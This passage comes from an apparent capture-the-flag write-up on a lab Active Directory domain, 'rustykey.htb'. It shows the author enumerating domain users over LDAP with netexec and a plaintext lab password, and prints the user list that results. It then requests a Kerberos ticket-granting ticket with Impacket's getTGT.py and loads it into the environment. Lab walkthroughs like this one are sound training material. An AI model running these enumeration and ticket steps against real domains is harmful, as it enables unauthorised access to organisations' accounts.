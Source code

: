 Found more users: `Support-Computer1`, `Support-Computer2`, `Support-Computer3`, `Support-Computer4`, `Support-Computer5`, `Finance-Computer1`, `Finance-Computer2`, `Finance-Computer3`, `Finance-Computer4`, `Finance-Computer5`, `IT-Computer1`, `IT-Computer2`, `IT-Computer3`, `IT-Computer4`, `IT-Computer5`. <br>
So this machine contains a lot of PCs.

Just some bonus enum.

```bash
└─$ sudo nxc ldap dc.rustykey.htb -d rustykey.htb -u rr.parker -p '8#t5HE8L!W3A' -k --users
LDAP        dc.rustykey.htb 389    DC               [*] None (name:DC) (domain:rustykey.htb)
LDAP        dc.rustykey.htb 389    DC               [+] rustykey.htb\rr.parker:8#t5HE8L!W3A 
LDAP        dc.rustykey.htb 389    DC               [*] Enumerated 11 domain users: rustykey.htb
LDAP        dc.rustykey.htb 389    DC               -Username-                    -Last PW Set-       -BadPW-  -Description-                                               
LDAP        dc.rustykey.htb 389    DC               Administrator                 2025-06-04 18:52:22 0        Built-in account for administering the computer/domain      
LDAP        dc.rustykey.htb 389    DC               Guest                         <never>             0        Built-in account for guest access to the computer/domain    
LDAP        dc.rustykey.htb 389    DC               krbtgt                        2024-12-26 19:53:40 0        Key Distribution Center Service Account                     
LDAP        dc.rustykey.htb 389    DC               rr.parker                     2025-06-04 18:54:15 0                                                                    
LDAP        dc.rustykey.htb 389    DC               mm.turner                     2024-12-27 05:18:39 0                                                                    
LDAP        dc.rustykey.htb 389    DC               bb.morgan                     2025-06-30 13:31:40 0                                                                    
LDAP        dc.rustykey.htb 389    DC               gg.anderson                   2025-06-30 13:31:40 0                                                                    
LDAP        dc.rustykey.htb 389    DC               dd.ali                        2025-06-30 13:31:40 0                                                                    
LDAP        dc.rustykey.htb 389    DC               ee.reed                       2025-06-30 13:31:40 0                                                                    
LDAP        dc.rustykey.htb 389    DC               nn.marcos                     2024-12-27 06:34:50 0                                                                    
LDAP        dc.rustykey.htb 389    DC               backupadmin                   2024-12-29 19:30:18 0
```

Now we gonna request **Ticket Granting Ticket** for `rr.parker` user.

```bash
└─$ getTGT.py -dc-ip 10.129.4.62 rustykey.htb/rr.parker:'8#t5HE8L!W3A'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in rr.parker.ccache
```

Then we set the ticket to the environment variable.

```bash
└─$ export KRB5CCNAME=rr.parker.ccache
```

Checking the ticket.
